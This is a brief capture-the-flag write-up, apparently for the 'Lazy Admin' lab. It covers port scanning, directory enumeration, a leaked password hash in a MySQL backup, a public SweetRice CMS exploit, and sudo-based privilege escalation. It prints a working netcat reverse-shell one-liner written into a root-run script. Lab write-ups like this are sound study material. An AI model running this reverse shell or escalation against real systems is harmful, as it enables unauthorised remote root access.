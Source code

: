 # Lazy Admin

## Reconnaissance

IP addr : 10.10.194.246

## Scanning & Enumeration

* Nmap Scan
  
```shell
nmap -A -T4 -p- -oN nmap/all_port 10.10.194.246
```

we find open port at 80(http) and 22(ssh)

* Gobustur dir finding
  
```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.194.246/

```

we find /content and [SweetRice](http://www.basic-cms.org/) here.

SweetRice is vulnerable to <https://www.exploit-db.com/exploits/40716> exploit

We run gobuster at SweetRice

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.194.246/content/
```

and find

/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)

and we fond a mysql backup file containing the manager password md5 hash
![mysql bak](img/mysql-bk.png)

we know have access to the cms
![cms](img/cms.png)

## Exploitation

* run our [exploit](exploit/40716.py)
we get a www data user shell
![shell](/img/shell.png)

found sudo -l exploitation vector
that run /etc/copy.pl
so we edit it'containt to

```shell
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> <Port> >/tmp/f' >/etc/copy.sh
```

and we get the root shell
![root](img/root_shell.png)

